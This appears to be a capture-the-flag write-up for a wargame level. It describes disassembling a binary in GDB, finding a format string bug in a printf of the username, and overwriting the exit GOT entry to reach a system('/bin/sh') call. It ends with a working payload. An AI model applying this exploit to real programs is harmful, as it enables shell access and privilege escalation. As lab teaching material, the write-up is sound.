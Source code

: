 In GDB we can see that the program fopens ("/home/users/level03/.pass"), reads it, and store it. then takes a username and password from stdin using fgets and compares the password to the contents of .pass stored before. If they match we get to a system("/bin/sh") call (which is impossible), if they don't, a printf is called with the username as argument.

In this level, we won't be able to debug it normally in ltrace or gdb since it's reading the flag from next level, and since gdb and ltrace are running with limited permissions the program will exit since he can't open/read the file in next level's user. we can work around that by breaking before open/read then jumping after them. We use this .gdbinit to automate that process:

set disassembly-flavor intel
file level02
\# break right before open
break *0x00000000004008a8
\# jump right before username/pass input and after open/read to bypass in gdb 
run
jump *0x0000000000400989

since the username gets printed later using printf we can mess around with format string exploit (%x or %p) and see if we get the memory printed. we notice that when writing a known string in password such as "AAAABBBBCCCCDDDD" we can easily print it in the 8th %x position.

![image1](ressources/image1.png)

that means all we have to do now is to override the exit function address (0x601228 <exit@got.plt>)
0x0000000000400aa2 <+654>:	call   0x4006c0 <printf@plt>
0x0000000000400aa7 <+659>:	mov    edi,0x400d3a
0x0000000000400aac <+664>:	call   0x400680 <puts@plt>
0x0000000000400ab1 <+669>:	mov    edi,0x1
0x0000000000400ab6 <+674>:	call   0x400710 <exit@plt>

disass 0x400710
Dump of assembler code for function exit@plt:
0x0000000000400710 <+0>:	jmp    QWORD PTR [rip+0x200b12]        # 0x601228 <exit@got.plt>

 to execute the instruction that calls the system("/bin/sh"):
0x0000000000400a85 <+625>: mov edi,0x400d32
0x0000000000400a8a <+630>: call 0x4006b0 <system@plt>

we can do that with printf with %n specifier instead of %x (%n writes the number or printed characters before to our argument). If we want to override exit() with the address 0x0000000000400a85, we will have to write 0x400a85 (4196997) characters before %n, since our buffer takes only 100 characters, we will take advantage of printf padding and we will specify that we want the 8th argument with $).

Our final payload is :
python -c 'print("%4196997d%8$n\n"+"\x28\x12\x60")' > payload
cat payload - | ./level02